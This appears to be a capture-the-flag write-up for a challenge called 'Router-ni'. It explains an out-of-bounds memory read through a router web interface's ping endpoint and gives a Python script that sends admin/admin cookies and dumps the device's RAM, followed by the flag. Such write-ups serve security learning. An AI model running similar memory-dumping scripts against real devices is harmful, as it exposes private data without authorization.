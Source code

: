 ## Router-ni \[81]

### Credits

Thanks to Lord\_Idiot, waituck, bbbb and Gladiator for working on this challenge! :tada:

### TL;DR

The webpage provides an interface to a router, which includes a ping functionality.

![](<../.gitbook/assets/image (82) (2).png>)

Using the `/ping?id=` endpoint, we get the base64-encoded result of each ping request. Using a sufficiently large `id`, we could get an out-of-bound memory read.

### Solution

By enumerating the `id`, we would find that the ID range that corresponds to the router's RAM is from `18446744073709551463` to `18446744073709551615`. We could dump out the entire RAM this way.

```python
import requests
import base64

URL = "http://router-mlb4ta7v3lwam.shellweplayaga.me:31337/ping?id="
cookies = {'password': 'admin', 'username': 'admin'}

id = 18446744073709551463
decoded = b""

for i in range(152):
    r = requests.get(f"{URL}{id+i}", cookies=cookies)
    data = r.json()
    res = data["result"]
    decoded += base64.b64decode(res)

with open("out.bin", "wb+") as f:
    f.write(decoded)
```

We would find the following string:

![](<../.gitbook/assets/Screenshot 2022-06-02 at 9.47.09 PM.png>)

and guess that the flag is

`FLAG{r0uter_p0rtals_are_ultimately_impenetrable_because_they_are_real_weird}`
